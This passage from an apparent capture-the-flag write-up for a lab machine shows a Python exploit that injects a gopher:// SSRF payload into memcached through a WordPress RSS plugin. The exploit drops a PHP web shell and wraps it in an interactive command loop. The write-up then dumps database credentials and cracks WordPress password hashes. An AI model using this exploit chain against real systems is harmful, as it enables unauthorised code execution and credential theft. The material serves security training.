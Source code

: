 ```

key = "xct_4e5612ba079c530a6b1f148c0b352241"
pl = subprocess.check_output(['php', 'test.php']).decode()
pl = "%0d%0aset " + key + " 4 0 " + str(len(pl)) + "%0d%0a" +  pl + "%0d%0a"
pl = urllib.quote_plus(pl).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
pl = "gopher://127.1:11211/_" + pl
r = requests.get("http://blog.travel.htb/wp-content/themes/twentytwenty/logs/testing.php")
if r.status_code != 200:
	r = requests.get("http://blog.travel.htb/awesome-rss/?custom_feed_url=http://www.travel.htb/newsfeed/customfeed.xml")
	print("Loaded key")
	r = requests.get("http://blog.travel.htb/awesome-rss/?custom_feed_url="+pl)
	print("Injected payload: {}".format("http://blog.travel.htb/awesome-rss/?custom_feed_url="+pl))
	r = requests.get("http://blog.travel.htb/awesome-rss/?custom_feed_url=http://www.travel.htb/newsfeed/customfeed.xml")
	print("Dropped shell at http://blog.travel.htb/wp-content/themes/twentytwenty/logs/testing.php?cmd=id")
while True:
	cmd = raw_input("$ ")
	r = requests.get("http://blog.travel.htb/wp-content/themes/twentytwenty/logs/testing.php?cmd="+cmd)
	print(r.text)
```

![Webshell](/assets/travel5.png)

And we have our foothold!

### Lateral Movement
My general first step when aquiring RCE as a web user is to discover database content. After opening `/var/www/html/wp-config.php` I was able to obtain credentials:
```
define( 'DB_NAME', 'wp' );
/** MySQL database username */
define( 'DB_USER', 'wp' );
/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );

```
Armed with this knowledge, I could use the helpful utility `mysqldump` to dump the contents of the entire database: `mysqldump -u wp -pfiFtDDV9LYe8Ti wp`.

 There's only one user in the table, complete with a password hash:
 `admin:$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/`
 However, this turned out to not be crackable via John's wordlist. I dug around for a while, and eventually I spotted `/opt/wordpress/backup-13-04-2020.sql`, which was an older sqldump. This contains a password hash for `lynik-admin:$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.`. This DOES crack, giving us the password `1stepcloser`
